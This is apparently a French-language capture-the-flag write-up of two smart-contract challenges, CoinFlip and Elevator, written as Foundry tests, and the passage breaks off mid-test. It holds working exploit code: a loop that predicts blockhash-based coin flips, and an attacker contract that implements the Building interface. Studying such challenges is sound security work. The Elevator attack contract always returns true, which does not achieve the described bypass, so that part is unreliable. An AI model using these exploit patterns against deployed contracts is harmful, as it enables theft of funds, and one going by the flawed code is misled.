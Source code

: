 ```javascript
    }
```
Pour hacker le code c'est a dire ganger dix fois consécutives il me suffit de faire
```javascript
function testFlip() public {
        uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
        uint256 blockValue;
        uint256 coinFlip;
        bool side;
        for (uint256 i = 0; i < 10; i++) {
            blockValue = uint256(blockhash(block.number - 1));
            coinFlip = blockValue / FACTOR;
            side = coinFlip == 1 ? true : false;
            if (side) {
                cf.flip(side);
            } else {
                cf.flip(!side);
            }
            if (cf.consecutiveWins() == 10) {
                console.log("you win ");
                return;
            }
            vm.warp(block.timestamp + 1);
            vm.roll(block.number + 1);
        }
}
```
**Conseils:**
Il faut utiliser chainlink VRF pour les sources aléatoires au lieu de block.number ou block.timestamp

# Elevator.sol
On peut creer l'instance d'une interface en s'assurant que l'adresse passé à l'interface pour 
l'opreation de cast impléménte l'interface pour ne pas avoir d'erreurs.
Par exemple on a l'interface 
```javascript
interface Building {
    function isLastFloor(uint256) external returns (bool);
}
```
et dans le contract Elevator il est fait 
```javascript
Building building = Building(msg.sender);

        if (!building.isLastFloor(_floor)) {
            floor = _floor;
            top = building.isLastFloor(floor);
        }
```
Il faudrait donc que le msg.sender ici ait forcémment implémenté l'interface Building.
Ici le msg.sender serait le contract Attack et je l'ai definit de la sorte
```javascript
contract Attack is Building {
    function isLastFloor(uint256) external pure override returns (bool) {
        return true;
    }
}
```
Il implémente bien l'interface et depuis le fichier ElevatorTest.t.sol ou j'ecris le test pour
effectuer l'attaque j'ai:
```javascript
function testGoToFloor() public {
        assertEq(elv.floor(), 0);
```